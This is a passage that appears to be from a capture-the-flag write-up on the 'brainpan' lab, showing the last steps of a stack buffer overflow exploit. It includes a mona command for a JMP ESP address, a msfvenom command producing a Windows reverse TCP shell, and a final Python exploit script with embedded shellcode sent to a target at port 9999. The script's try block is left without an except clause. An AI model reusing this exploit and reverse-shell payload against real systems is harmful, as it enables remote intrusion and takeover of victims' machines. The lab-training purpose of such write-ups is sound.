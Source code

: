```python
!mona find -s "\xFF\xE4" -m "brainpan.exe"
>> 0x311712f3
```
Put it in the script like this "'\xf3\x12\x17\x31"
### <span style="color:#d32e9d">Step 7 
Create the shellcode
```python
msfvenom -p windows/shell_reverse_tcp LPORT=6969 LHOST=XXX -b '\x00' -f c
```
Add the shellcode and NOPs to the script
```python
NOP = "\x90"*16
```
### <span style="color:#d32e9d">Final Script
```python
#!/usr/bin/python

import socket

ip_adress = '192.168.20.117'
port = 9999

if __name__ == '__main__':

	offset = "A"*524
	EIP = "B"*4
	NOP = "\x90"*16
	#BADCHARS= \x00\
	shellcode = ("\xbe\xde\x07\x0e\xdc\xdd\xc3\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x52\x31\x73\x12\x83\xc3\x04\x03\xad\x09\xec\x29\xad\xfe\x72"
"\xd1\x4d\xff\x12\x5b\xa8\xce\x12\x3f\xb9\x61\xa3\x4b\xef\x8d"
"\x48\x19\x1b\x05\x3c\xb6\x2c\xae\x8b\xe0\x03\x2f\xa7\xd1\x02"
"\xb3\xba\x05\xe4\x8a\x74\x58\xe5\xcb\x69\x91\xb7\x84\xe6\x04"
"\x27\xa0\xb3\x94\xcc\xfa\x52\x9d\x31\x4a\x54\x8c\xe4\xc0\x0f"
"\x0e\x07\x04\x24\x07\x1f\x49\x01\xd1\x94\xb9\xfd\xe0\x7c\xf0"
"\xfe\x4f\x41\x3c\x0d\x91\x86\xfb\xee\xe4\xfe\xff\x93\xfe\xc5"
"\x82\x4f\x8a\xdd\x25\x1b\x2c\x39\xd7\xc8\xab\xca\xdb\xa5\xb8"
"\x94\xff\x38\x6c\xaf\x04\xb0\x93\x7f\x8d\x82\xb7\x5b\xd5\x51"
"\xd9\xfa\xb3\x34\xe6\x1c\x1c\xe8\x42\x57\xb1\xfd\xfe\x3a\xde"
"\x32\x33\xc4\x1e\x5d\x44\xb7\x2c\xc2\xfe\x5f\x1d\x8b\xd8\x98"
"\x62\xa6\x9d\x36\x9d\x49\xde\x1f\x5a\x1d\x8e\x37\x4b\x1e\x45"
"\xc7\x74\xcb\xca\x97\xda\xa4\xaa\x47\x9b\x14\x43\x8d\x14\x4a"
"\x73\xae\xfe\xe3\x1e\x55\x69\xcc\x77\x41\x18\xa4\x85\x69\xc1"
"\x0d\x03\x8f\x9f\x7d\x45\x18\x08\xe7\xcc\xd2\xa9\xe8\xda\x9f"
"\xea\x63\xe9\x60\xa4\x83\x84\x72\x51\x64\xd3\x28\xf4\x7b\xc9"
"\x44\x9a\xee\x96\x94\xd5\x12\x01\xc3\xb2\xe5\x58\x81\x2e\x5f"
"\xf3\xb7\xb2\x39\x3c\x73\x69\xfa\xc3\x7a\xfc\x46\xe0\x6c\x38"
"\x46\xac\xd8\x94\x11\x7a\xb6\x52\xc8\xcc\x60\x0d\xa7\x86\xe4"
"\xc8\x8b\x18\x72\xd5\xc1\xee\x9a\x64\xbc\xb6\xa5\x49\x28\x3f"
"\xde\xb7\xc8\xc0\x35\x7c\xf8\x8a\x17\xd5\x91\x52\xc2\x67\xfc"
"\x64\x39\xab\xf9\xe6\xcb\x54\xfe\xf7\xbe\x51\xba\xbf\x53\x28"
"\xd3\x55\x53\x9f\xd4\x7f")
	#0x311712f3
	buffer = offset + "\xf3\x12\x17\x31" + NOP + shellcode

	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((ip_adress, port))

		data = s.recv(1024)
		s.send("%s\r\n" % buffer)
		data = s.recv(1024)
		s.close()
```